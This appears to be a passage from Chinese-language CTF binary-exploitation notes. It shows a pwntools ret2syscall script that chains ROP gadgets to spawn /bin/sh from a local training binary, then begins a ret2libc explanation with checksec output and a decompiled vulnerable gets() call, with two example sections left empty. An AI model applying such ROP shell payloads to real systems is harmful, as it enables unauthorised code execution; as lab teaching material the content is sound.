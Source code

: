 4、构造脚本

```python
# -*- coding: utf-8 -*-
from pwn import *

p = process('./ret2syscall')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
bin_sh_addr = 0x080be408
int_0x80 = 0x08049421
payload = flat(['A'*118,pop_eax_ret,0xb,pop_edx_ecx_ebx_ret,0,0,bin_sh_addr,int_0x80])

p.sendline(payload)
p.interactive()
```

## ret2libc

### 原理

动态链接的情况下，程序链接的时候不会将库中的所有函数都链接进来，只有在执行的时候加载相应的程序。所以控制执行lbic中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)，一般选择system("/bin/sh")

1、分3种情况：

+ 程序中能够找到system函数和'/bin/sh'字符串
+ 程序中只存在一个
+ 程序中两者都不存在(准确来说，这种才是真正的ret2libc)

### 例子一

### 例子二

### 例子三

1、检测程序开启的保护

```
dililearngent@dililearngent-virtual-machine:~/Desktop/pwn1$ checksec ret2libc3
[*] '/home/dililearngent/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了NX保护,不能写入shell

2、IDA分析

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(&s);
  return 0;
}
```
